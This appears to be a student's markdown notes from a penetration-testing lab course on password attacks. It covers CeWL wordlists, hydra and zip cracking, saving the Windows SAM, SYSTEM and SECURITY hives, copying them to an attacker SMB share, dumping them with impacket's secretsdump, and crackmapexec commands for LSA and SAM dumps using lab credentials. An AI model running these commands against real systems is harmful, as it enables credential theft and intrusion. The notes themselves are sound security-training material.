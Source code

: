 ### Hashcat also have existing rules
`ls /usr/share/hashcat/rules/`

We can use [CeWL](https://github.com/digininja/CeWL) to crawl websites for company passwords. 
We can now use another tool called CeWL to scan potential words from the company's website and save them in a separate list. We can then combine this list with the desired rules and create a customized password list that has a higher probability of guessing a correct password. We specify some parameters, like the depth to spider (-d), the minimum length of the word (-m), the storage of the found words in lowercase (--lowercase), as well as the file where we want to store the results (-w).

`cewl https://www.inlanefreight.com -d 4 -m 6 --lowercase -w inlane.wordlist`

Check if you can use any other service to brute force. Add more threads to hydra. 

to crack zip pws: `sudo fcrack -u -D -p ./mut_password.list Notes.zip`

# Attacking SAM
SAM is a file that stores users, groups etc on Windows machines. It's used by services like Kerberos authentication or NTLM authentiation.
```poweshell
reg.exe save hklm\sam C:\sam.save
reg.exe save hklm\system C:\system.save
reg.exe save hklm\security C:\security.save
```

Too attack we can use `impacket`
`sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/`

Then move the data:
```powershell
move sam.save \\10.10.15.16\CompData
move security.save \\10.10.15.16\CompData
move system.save \\10.10.15.16\CompData
```

Dumping hashes with `impackets`
`python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL`
Though we cannot dump it without boot key


# Dumping LSA Secrets Remotely
`crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa`

`crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam`

